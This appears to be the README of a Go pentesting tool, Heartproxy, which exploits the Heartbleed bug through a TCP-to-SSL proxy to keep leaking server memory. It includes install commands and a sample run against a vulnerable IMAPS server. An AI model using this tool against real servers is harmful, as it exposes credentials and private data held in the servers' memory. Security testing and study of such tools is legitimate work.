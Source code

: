 Heartproxy
==========

Heartbleed TCP to SSL proxy that constantly pulls leaked memory.

Use for pentesting to dump live memory chunks during an ongoing connection.

Based on work of Filippo Valsorda at https://github.com/FiloSottile/Heartbleed

Install
=======

go get github.com/mver/Heartproxy

go install github.com/mver/Heartproxy

Synopsis
========

Leaking 63000 Bytes from a vulnerable IMAPS server: 
 
[foo@bar/term1]$ Heartproxy 8080 mail.vulnerable.com:993 64000
2014/04/10 14:25:18 Using leaksize 63000
Listening on 8080
2014/04/10 14:25:25 New connection from: localhost
2014/04/10 14:25:25 Connected to target...
2014/04/10 14:25:25 starting up heartbeat collector
2014/04/10 14:25:25 starting up clientToTarget collector
2014/04/10 14:25:25 starting up targetToClient collector
...

[foo@bar/term2]$ telnet localhost 8080
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
AUTH ...
